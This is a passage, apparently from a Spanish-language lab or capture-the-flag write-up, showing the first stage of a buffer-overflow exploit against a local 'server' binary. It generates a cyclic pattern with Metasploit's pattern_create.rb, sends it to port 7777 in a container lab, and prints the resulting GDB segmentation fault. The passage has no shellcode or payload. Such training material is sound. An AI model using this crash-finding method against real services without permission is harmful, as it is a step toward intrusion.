 ### Comprobacion de desbordamiento de Buffer

En el `host`, generamos una cadena de caracteres diseñada para intentar desbordar el `buffer` de la aplicación. Esto se logra con la herramienta `pattern_create.rb`:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
```

Info:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Este patrón se usará como entrada en la aplicación para identificar cómo se maneja el `buffer`.

Ahora llendonos al `GDB` tendremos que ejecutar `run`.

Y en nuestro `host` con el binario `sender` tendremos que enviar todos estos caracteres:

```shell
./sender <IP> 7777
```

Info:

```
Conectado al servidor en 172.17.0.3:7777
Introduce los datos para enviar: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
Datos enviados: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Si nos vamos al `gdb` veremos lo siguiente:

```
Starting program: /home/alex/server 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Servidor escuchando en el puerto 7777...
Conexión aceptada de 172.17.0.1:34782
Datos recibidos: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A

Procesado: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A


Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
```